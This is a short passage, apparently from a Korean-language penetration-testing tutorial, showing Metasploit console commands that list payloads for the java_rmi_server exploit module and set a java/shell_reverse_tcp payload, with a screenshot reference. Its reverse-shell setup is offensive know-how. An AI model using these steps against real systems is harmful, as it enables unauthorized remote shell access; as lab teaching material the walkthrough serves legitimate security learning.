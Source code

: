 ```
msf5 exploit(multi/misc/java_rmi_server)> show payloads
msf5 exploit(multi/misc/java_rmi_server)> set payload java/shell_reverse_tcp
```

payload목록을 확인한 뒤, 하나를 골라 우리가 사용할 payload로 지정한다.

![3_27](./image3/Screenshot_2020-07-17_01-36-37.png)
